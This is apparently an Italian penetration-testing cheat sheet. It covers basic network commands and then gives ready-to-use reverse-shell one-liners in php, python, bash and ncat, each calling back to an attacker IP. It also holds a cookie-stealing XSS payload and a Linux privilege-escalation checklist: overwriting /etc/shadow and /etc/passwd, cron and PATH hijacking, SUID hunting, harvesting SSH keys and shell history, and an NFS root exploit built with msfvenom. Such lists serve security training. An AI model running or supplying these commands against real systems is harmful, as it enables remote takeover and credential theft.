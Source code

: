 # LISTA COMANDI UTILI

1. ###### FIND
   è il comando usato per trovare un file seguendo certi criteri
	- `find /`: inizia a cercare da root
	- `-user user1`: cerca file creato da utente user1
	- `-group group1`: cerca file creato da gruppo group1
	- `-size +6c -size -10c`: cerca file con dimensione maggiore di 6byte e minori di 10 byte
	- `-perm 4000`: cerca file con permessi utente root, se 2000 file avviato con privilegi del gruppo invece, che potrebbe essere root

2. ###### SSH
   è il comando per potersi collegare ad un computer in remoto
	- `ssh username@hostname`: connettiti ad IP = hostname usando username per credenziale d'accesso
	- `-p 2020`: utilizza la porta 2020 per la connessione

4. ###### SCP
   è il comando per trasferire file usando ssh
	- `scp username@hostname:/percorso/origine /percorso/destinazione/nome_file_di_destinazione`: prendi file dalla connessione ssh e salvalo in locale con nome nome_file_di_destinazione
	- `-r`: copia una intera directory

5. ###### HOST
   è il comando utilizzato per eseguire query DNS e ottenere informazioni sui nomi di dominio.
	- **`-t ns`**: specifica il tipo di record DNS che desideri ottenere. In questo caso, "ns" sta per "nameserver", quindi stai chiedendo di ottenere informazioni sui server dei nomi del dominio
	- **`-t mx`**: specifica il tipo di record DNS richiesto, in questo caso, "mx" per i record di scambio di posta (Mail Exchange)
	- `-l hostname.com nsztm2.digi.ninja`: prova un DNS Zone Transfer, utile per altre informazioni

6. ###### WHOIS
   è il comando per vedere informazioni sul possesso di un dominio o di un indirizzo IP. Potrebbe interessarti il "Name Server" per DNS Zone Transfer
	`whois esempio.com`: vedi le informazioni di esempio.com

7. ###### NC
    utile per creare client/server rapidamente. Ottimo per mandare i comandi alla macchina che stiamo attaccando
- ```nc -l 1234```: inizia ad ascoltare nella porta 1234
- ```nc 127.0.0.1 1234```: connettiti alla macchina con indirizzo 127.0.0.1 alla porta 1234


# SHELLS
### REVERSE SHELL
Nella reverse shell è l'attacker che si mette in listening e la vittima si collega, quindi

#### ATTACCANTE:

```
ncat -lvnp 4242
```

#### VITTIMA:

##### php
```
php -r '$sock=fsockopen("IP_ATTACCANTE",4242);shell_exec("sh <&3 >&3 2>&3");'
```

##### python3
```
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP_ATTACCANTE",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

##### bash

```
bash -i >& /dev/tcp/IP_ATTACCANTE/4242 0>&1
```

```
0<&196;exec 196<>/dev/tcp/IP_ATTACCANTE/4242; sh <&196 >&196 2>&196
```

```
/bin/bash -l > /dev/tcp/IP_ATTACCANTE/4242 0<&1 2>&1
```

##### netcat
```
ncat 10.0.0.1 4242 -e /bin/bash
```


# XSS
```<script>alert(document.cookie)</script>``` è quello che mediamente mi può interessare per idSession

1. prova a metterlo nella URL se puoi dopo il ?
2. prova a metterlo in un button come `onclick=alert(document.cookie)`
3. prova a metterlo nella URL dopo una GET/POST con `&<script>alert(document.cookie)</script>`


# PRIVILAGE ESCALATION

La guida che segue è un po' disordinata, è più una lista di metodi da provare che altro. 

0. **CALDAMENTE CONSIGLIATO** Runna [linpeas.sh] (https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) dopo averlo scaricato sulla macchina vittima
1. Controlla se il file /etc/shadow è readable, cracka la hash del root
2. Controlla se il file /etc/shadow è writable, genera una nuova password sha-512 `mkpasswd -m sha-512 newpasswordhere` e sostituiscila a root
3. Controlla se il file /etc/passwd è writable, genera una password con `openssl passwd newpasswordhere` copia la riga iniziale di root alla fine di passwd, sostituisici il primo `root:x` con `newroot:password`, cambia utente in newroot
4. Usa `sudo -l` e vedi che comandi puoi usare come root, usa [GTFOBins](https://gtfobins.github.io/) per vedere quali permettono di fare privilage escalation
5. Guarda `cat /etc/crontab`, vedi se ci sono programmi che vengono eseguiti come root e prova a modificarli per avere shell o qualcosa di simile
6. Guarda `cat /etc/crontab`, vedi il PATH e i programmi che vengono eseguiti come root, crea un programma con lo stesso nome di quello root nella prima cartella in ordine che appare in PATH che ti possa permettere di avere una shell o qualcosa di simile
7. Guarda `cat /etc/crontab`, vedi se tra  i programmi root si sono WILDCARDS \*, poi usa gli exploit adatti
8. Guarda `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`, cerca se ci sono file soggetti ad exploit da [Exploit DB](https://www.exploit-db.com/)
9. f
10. Guarda se magari nella cronologia `cat ~/.*history | less` ha per sbaglio messo la password
11. Cerca se c'è la chiave SSH da qualche parte, copiala in un file root_key, `chmod 600 root_key`, e poi prova a connetterti con questa chiave `ssh -i root_key -oPubkeyAcceptedKeyTypes=+ssh-rsa -oHostKeyAlgorithms=+ssh-rsa root@IP_VITTIMA`
12. Guarda `cat /etc/exports`, se ci sono opzioni `no_root_squash` allora puoi usare il `mount` come root per avere privilegi root nella macchina vittima. 
		 ATTACCANTE (es. su /tmp vulnerabile a no_root_squashing):
		`mkdir /tmp/nfs` 
		`mount -o rw,vers=3 IP_VITTIMA(credo):/tmp /tmp/nfs`
		`msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf`
		`chmod +xs /tmp/nfs/shell.elf`
		VITTIMA:
		`/tmp/shell.elf`
13. Come ultima istanza, prova un Dirty COW, anche se meglio di no
